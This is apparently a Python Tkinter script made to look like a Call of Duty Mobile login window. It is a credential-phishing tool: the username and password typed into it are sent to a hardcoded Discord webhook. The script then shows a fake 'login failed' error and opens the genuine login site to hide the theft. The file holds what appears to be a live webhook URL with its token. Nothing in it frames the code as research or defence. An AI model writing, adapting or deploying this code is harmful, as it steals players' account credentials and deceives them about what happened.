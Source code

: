 import tkinter as tk
import requests
import webbrowser
from tkinter import messagebox

WEBHOOK_URL = "https://discord.com/api/webhooks/1363243010564821123/3e_i_0An96A66nBfGDlyocbm8fVk3symYsKoUx8NseAmqiw08e2HQt2n9yg0Kev4on5c"

def send_to_discord():
    nameyou = name_entry.get()
    password = password_entry.get()

    data = {
        "content": f"username: {nameyou}\n\nPassword: **{password}"
    }
    try:
        requests.post(WEBHOOK_URL, json=data)
    except requests.exceptions.RequestException as e:
        messagebox.showerror("Error", f"Failed to send data: {e}")
        return
    


    # Show fake error
    messagebox.showerror("Login Failed", "Incorrect email or password.")

     # Schedule opening the website after 1500ms
    # root.after(1500)
    root.after(2000, root.destroy)  # Close after 2 seconds

    # Schedule opening the website after 1500ms
    root.after(1500, lambda: webbrowser.open("https://profile.callofduty.com/codm/login"))
    requests.post(WEBHOOK_URL, json=data)
     
# root.destroy() # Close the Tkinter window
  # Schedule opening the website after 1500ms
    # Close the Tkinter window
   



root = tk.Tk()

dis = True
root.title("Call of Duty Mobile")
root.geometry("350x400")
root.resizable(False, False)
root.configure(bg="#1e1e1e")  # Dark background

# Title
title_label = tk.Label(root, text="Call of Duty", font=("Impact", 28, "bold"), fg="#FFD700", bg="#1e1e1e")
title_label.place(x=60, y=20)

# Subtitle
subtitle_label = tk.Label(root, text="LOGIN TO YOUR ACCOUNT", font=("Arial", 12), fg="white", bg="#1e1e1e")
subtitle_label.place(x=80, y=70)

# Email label and entry
name_label = tk.Label(root, text="Email Address*:", fg="white", bg="#1e1e1e")
name_label.place(x=20, y=110)

name_entry = tk.Entry(root, bg="white", fg="black")
name_entry.place(x=20, y=135, width=300)

# Password label and entry
password_label = tk.Label(root, text="Password*:", fg="white", bg="#1e1e1e")
password_label.place(x=20, y=175)

password_entry = tk.Entry(root, show="*", bg="white", fg="black")
password_entry.place(x=20, y=200, width=300)

# Login button
submit_button = tk.Button(root, text="Login now", command=send_to_discord,
                          bg="#333333", fg="#FFD700", font=("Arial", 10, "bold"))
submit_button.place(x=130, y=260)

 # this closes the Tkinter window





root.mainloop()
